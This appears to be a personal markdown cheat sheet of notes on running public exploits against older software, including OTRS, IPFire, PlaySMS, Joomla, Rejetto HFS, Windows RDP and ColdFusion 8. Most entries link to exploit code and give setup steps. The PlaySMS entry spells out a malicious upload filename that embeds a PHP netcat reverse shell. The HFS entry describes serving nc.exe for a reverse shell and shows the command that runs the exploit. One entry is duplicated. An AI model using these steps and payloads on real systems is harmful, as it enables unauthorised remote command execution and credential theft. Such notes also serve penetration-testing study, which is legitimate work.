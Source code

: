 # Comments on Exploits
@davimoreno

## [CVE-2017-16921](https://nvd.nist.gov/vuln/detail/CVE-2017-16921)
- **Source**:
	- Explanation: https://www.exploit-db.com/exploits/43853
	- Code: https://www.exploit-db.com/exploits/49794
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**: OTRS 6.0.x up to and including 6.0.1, OTRS 5.0.x up to and including 5.0.24, and OTRS 4.0.x up to and including 4.0.26
- **Tested on**: 
- **Comments**:
	- Just edit the exploit parameters and open a listener before execution.
## [CVE-2017-9757](https://nvd.nist.gov/vuln/detail/CVE-2017-9757)
- **Source**: https://github.com/davimoreno/ipfire_rce/blob/main/ipfire_rce.sh
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**:  < IPFire 2.19 with core update 110
- **Tested on**: 
- **Comments**:
	- Edit the parameters inside the exploit, including IP/Port to listen, and IPFire credentials.
	- Open listener to receive the reverse shell.
	- Edit the `PAYLOAD` in the exploit if you want to execute a different command. The payload needs to be URL encoded.
## [CVE-2017-9080](https://nvd.nist.gov/vuln/detail/CVE-2017-9080)
- **Source**: 
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**: PlaySMS 1.4
- **Tested on**: 
- **Comments**:
	1. Find playsms folder in target application (e.g. http://example.com/playsms)
	2. Login with valid credentials in http://example.com/playsms
	3. Create in the attacker machine a malicious file. E.g.
		- `touch "asdasd.<?php exec('nc LHOST LPORT -e \$(which bash)&'); ?>.png"`
	4. Open listener in LPORT.
	5. Upload the malicious file in http://example.com/playsms/index.php?app=main&inc=feature_sendfromfile&op=list to get the reverse shell
## [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917)
- **Source**: https://github.com/davimoreno/joomla_3-7-0_sqli
- **Vulnerability**: SQLi
- **Software**: Joomla! 3.7.x before 3.7.1
- **Tested on**:
- **Comments**:
	- The script dumps the first user's username, email, and password from the Joomla database.
## [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)
- **Source**: https://www.exploit-db.com/exploits/39161
- **Vulnerability**: Remote Command Execution
- **Software**: Rejetto HTTP File Server (HFS) 2.3.x
- **Tested on**: Windows Server 2008 , Windows 8, Windows 7 
- **Comments**:
	- The exploit tries to download "nc.exe" from the attacker machine, and then use it to execute a reverse shell. We can edit the command to be executed if needed (e.g. Windows Defender blocking "nc.exe"). 
	- Need to open webserver at port 80 inside a directory with "nc.exe" inside it. This executable can be found in
		- Kali: `/usr/share/windows-binaries/`
		- https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
	- Edit the exploit `ip_addr` and `local_port` variables to match the local IP address and port to listen on.
	- Open listener at the port indicated by `local_port`.
	- Execute the exploit twice with the command
```linux-cmd
python2 CVE-2014-6287.py TARGET_IP TARGET_PORT
```
## [CVE-2012-0002](https://nvd.nist.gov/vuln/detail/CVE-2012-0002)
- **Source**: https://github.com/d3fudd/MS12-020_Esteemaudit
- **Vulnerability**: Remote Command Execution
- **Software**: 
- **Tested on**: Windows Server 2003 SP1, SP2, and Windows XP SP0, SP1, SP3.
- **Comments**:
	- This is a vulnerability on the implementation of the RDP protocol in some windows systems.
	- This vulnerability is also known as Esteemaudit.
	- Just follow the steps in the source link.
## [CVE-2012-0002](https://nvd.nist.gov/vuln/detail/CVE-2012-0002)
- **Source**: https://github.com/d3fudd/MS12-020_Esteemaudit
- **Vulnerability**: Remote Command Execution
- **Software**: 
- **Tested on**: Windows Server 2003 SP1, SP2, and Windows XP SP0, SP1, SP3.
- **Comments**:
	- This is a vulnerability on the implementation of the RDP protocol in some windows systems.
	- This vulnerability is also known as Esteemaudit.
	- Just follow the steps in the source link.
## [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265)
 - **Source**: https://www.exploit-db.com/exploits/50057
- **Vulnerability**: Remote Command Execution
- **Software**: Adobe ColdFusion 8
- **Tested on**: 
- **Comments**:
	- Just edit the exploit parameters related with LHOST,LPORT,RHOST,RPORT.
	- This vulnerability is related with the version of FCKeditor used by ColdFusion8.
## [CVE-XXXX-XXXX](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)
- **Source**: 
- **Vulnerability**: 
- **Software**: 
- **Tested on**: 
- **Comments**:
